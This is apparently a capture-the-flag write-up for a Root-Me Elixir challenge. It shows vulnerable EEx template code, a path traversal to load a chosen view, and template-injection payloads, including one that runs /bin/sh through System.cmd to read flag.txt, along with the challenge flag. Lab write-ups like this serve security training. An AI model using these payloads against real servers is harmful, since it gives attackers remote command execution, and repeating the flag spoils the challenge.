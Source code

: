 ```yaml
---
layout: default
title: Elixir-EEx
---
```


In this challenge we exploit `SSTI` in `Elixir`.

The vulnerable code is in `template_engine.ex` file:
```elixir
defmodule CloudService.TemplateEngine do
  def render_view(view, bindings \\ []) do
    filepath = Path.join ["lib/views", view <> ".eex"]

    case File.read filepath do
      {:ok, file} -> EEx.eval_string(file, assigns: bindings)
      {:error, error} -> raise "internal server error (#{Atom.to_string error})"
    end
  end
end
```

As you can see, it uses `eval_string`, so if we'll manage to execute our own `view`, we can achieve `RCE`.

In addition, we exploit `Path Traversal` vulnerability, here:
```
http://challenge01.root-me.org:59089/?page=index
```

For example, we can ask for this, and it still works:
```
http://challenge01.root-me.org:59089/?page=../../lib/views/index
```

So, first let's check for this vulnerability, this will be our payload, of course base64 encoded:
```
<%= 7 * 7 %>
```
![send payload](./images/Elixir-EEx_payload.png)

![SSTI poc](./images/Elixir-EEx_SSTI_poc.png)

Then, will read `flag.txt` using this payload, of course base64 encoded:
```
<%= elem(System.cmd("/bin/sh", ["-c", "cat flag.txt"]), 0) %>
```

![FINAL](./images/Elixir-EEx_FINAL.png)

**Flag:** ***`RM{EEx_C@n_b3_DanGeR0u$:)!}`***
